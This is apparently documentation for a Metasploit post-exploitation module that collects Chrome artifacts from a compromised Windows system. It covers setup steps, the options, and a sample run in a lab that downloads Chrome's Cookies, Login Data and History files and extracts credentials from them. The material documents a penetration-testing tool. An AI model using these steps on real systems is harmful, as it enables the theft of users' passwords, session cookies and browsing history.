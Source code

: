 ## Module Description

This post-exploitation module gathers artifacts found on Chrome related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/chrome
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/chrome) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Chrome's parent folder found
[*] Chrome's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\Cookies
[*] Chrome Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513135138_default_192.168.56.106_chromeCookies_228131.bin

[*] no such table: cookiess
[*] Chrome's parent folder found
[*] Chrome's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\Login Data
[*] Chrome Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513135138_default_192.168.56.106_chromeLoginData_686416.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513135139_default_192.168.56.106_EXTRACTIONSLogin_188262.bin
[*] Chrome's parent folder found
[*] Chrome's History file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\History
[*] Chrome History downloaded
[+] File saved to:  /root/.msf4/loot/20210513135139_default_192.168.56.106_chromeHistory_527301.bin

[*] no such column: lower_term
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
